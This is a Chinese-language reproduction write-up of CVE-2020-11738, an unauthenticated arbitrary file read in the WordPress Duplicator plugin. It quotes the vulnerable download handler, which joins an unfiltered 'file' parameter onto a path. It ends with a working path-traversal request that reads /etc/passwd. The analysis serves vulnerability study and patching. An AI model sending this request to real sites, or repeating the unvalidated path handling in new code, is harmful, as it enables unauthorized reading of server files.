



WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738¶
漏洞描述¶
WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞
漏洞影响¶
Duplicator <= v1.3.26
插件名¶
Duplicator
https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip
漏洞复现¶
首先先查看注册的无需授权的action接口 wp-content/plugins/duplicator/ctrls/class.web.services.php

这里 wp_ajax_nopriv_duplicator_download 对应的函数名为 duplicator_download

public static function duplicator_download() {
$file = sanitize_text_field($_GET['file']);
$filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
// Process download
if(file_exists($filepath)) {
// Clean output buffer
if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
@ob_clean();
}
header('Content-Description: File Transfer');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
header('Expires: 0');
header('Cache-Control: must-revalidate');
header('Pragma: public');
header('Content-Length: ' . filesize($filepath));
flush(); // Flush system output buffer
try {
$fp = @fopen($filepath, 'r');
if (false === $fp) {
throw new Exception('Fail to open the file '.$filepath);
}
while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
echo $data;
}
@fclose($fp);
} catch (Exception $e) {
readfile($filepath);
}
exit;
} else {
wp_die('Invalid installer file name!!');
}
}
可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知
DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
